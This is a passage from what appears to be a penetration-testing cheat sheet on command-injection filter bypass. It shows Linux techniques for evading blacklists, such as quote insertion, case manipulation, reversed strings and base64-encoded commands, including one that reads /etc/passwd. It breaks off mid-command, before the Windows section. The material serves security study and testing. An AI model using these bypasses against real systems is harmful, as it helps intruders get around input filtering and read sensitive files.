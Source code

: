 	Will be replaced with '\\'
	
	```
	# cmd
	%HOMEPATH:~0,-17%
	
	# powershell
	$env:HOMEPATH[0]
	```

### Blacklisted command bypass

=== "Linux"

	**Character insertion**
	
	Total of '`' and/or '"' must be even
	
	```
	' or "
	```
	
	Linux only
	
	```
	$@ or \
	```
	
	**Case Manipulation**
	
	```
	$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
	```
	
	Execute reversed commands
	
	```
	$(rev<<<'imaohw')
	```
	
	**Encoded Commands**
	
	Encode a string with base64
	
	```
	echo -n 'cat /etc/passwd | grep 33' | base64
	```
	
	Execute reversed command
	
	```
	bash<<<$(base64 -d<<
	```

=== "Windows"
